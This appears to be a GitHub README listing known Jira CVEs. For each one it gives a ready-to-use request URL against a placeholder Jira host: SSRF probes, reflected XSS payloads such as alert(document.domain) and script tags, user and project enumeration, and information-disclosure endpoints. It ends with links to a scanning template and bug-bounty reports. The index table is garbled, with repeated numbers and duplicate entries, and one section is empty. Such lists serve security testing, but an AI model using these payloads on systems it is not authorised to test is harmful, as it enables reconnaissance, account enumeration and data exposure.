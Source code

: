 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-20824 (XSS)
**3** | CVE-2019-3402 (XSS)
**4** | CVE-2019-3403 (User Enumeration)
**5** | CVE-2019-8442 (Sensitive Information Disclosure)
**2** | CVE-2020-14179 (Information Disclosure)
**2** | CVE-2020-14181 (User Enumeration)
**3** | CVE-2020-14178 (Project Key Enumeration)
**4** | CVE-2019-3402 (XSS)
**5** | CVE-2019-11581 (SSTI)
**6** | CVE-2019-3396 (Path Traversal)
**7** | CVE-2019-8451 (SSRF)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-3403 (User Enumeration)
**10** | CVE-2019-8442 (Sensitive Information Disclosure)
**11** | Tools
**12**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```



#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```



#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
```
#### CVE-2019-3396 (Path Traversal)

#### CVE-2019-8451 (SSRF)

```
a.  Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-8449 (User Information Disclosure)
```
a. Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
b. Observe that the user related information will be available.
```


#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
